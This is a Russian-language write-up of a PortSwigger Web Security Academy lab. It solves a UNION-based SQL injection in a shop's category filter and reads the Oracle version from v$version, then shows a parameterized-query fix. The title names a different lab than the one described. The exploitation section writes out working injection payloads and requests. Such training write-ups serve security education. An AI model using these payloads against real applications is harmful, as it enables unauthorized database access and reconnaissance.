

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
**Платформа:** PortSwigger Web Security Academy
**Категория:** SQL Injection
**Сложность:** Apprentice
**Дата:** 2025-07-07

---

## TL;DR

Обнаружена UNION-based SQL-инъекция в параметре category. После определения количества и типов столбцов удалось выполнить UNION SELECT и получить версию Oracle Database из системного представления v$version.

---

## Описание уязвимости

В параметре category присутствует SQL-инъекция типа UNION-based SQL Injection. Пользовательский ввод включается в SQL-запрос без параметризации, что позволяет злоумышленнику модифицировать выполняемый запрос.

После определения количества и типов столбцов оператор UNION SELECT был использован для извлечения данных из системных представлений Oracle. В результате удалось получить информацию о версии СУБД из представления v$version.

---

## Разведка

Приложение — магазин с фильтрацией по категориям.
Точка входа: параметр `category`.

```http
GET /filter?category=Gifts HTTP/1.1
```

Проверяем инъекцию одиночной кавычкой:
```http
GET /filter?category=Gifts' HTTP/1.1
```
Ответ: 500 Internal Server Error — уязвимость подтверждена.

---

## Эксплуатация

### Шаг 1 — Определяем количество столбцов

В Oracle используем `FROM dual` обязательно:
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--   ← 500 ошибка
```
Вывод: два столбца.

### Шаг 2 — Определяем типы столбцов

```sql
' UNION SELECT 'a','b' FROM dual--
```
Ответ 200 — оба столбца строковые.

### Шаг 3 — Получаем версию БД

```sql
' UNION SELECT BANNER,NULL FROM v$version--
```

Итоговый запрос:
```http
GET /filter?category=Gifts'+UNION+SELECT+BANNER,NULL+FROM+v$version-- HTTP/1.1
```

Сервер вернул полный вывод таблицы `v$version`:

CORE 11.2.0.2.0 Production
NLSRTL Version 11.2.0.2.0 - Production
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production

Каждая строка — отдельный компонент Oracle:

| Компонент | Что это |
|---|---|
| `CORE` | Ядро БД |
| `NLSRTL` | Языковая поддержка |
| `Oracle Database 11g` | Основная версия |
| `PL/SQL` | Процедурный язык |
| `TNS` | Сетевой протокол Oracle |

Ключевая строка для атакующего:
`Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production`
→ точная версия → можно искать CVE под неё.

---

## Скриншоты



---

## Итог

Получили точную версию Oracle — это даёт атакующему информацию
для поиска CVE под конкретную версию БД.

---

## Защита

```python
# Параметризованный запрос — единственная надёжная защита:
cursor.execute(
    "SELECT * FROM products WHERE category = :category",
    {"category": category}
)
# Oracle использует :name синтаксис вместо %s
```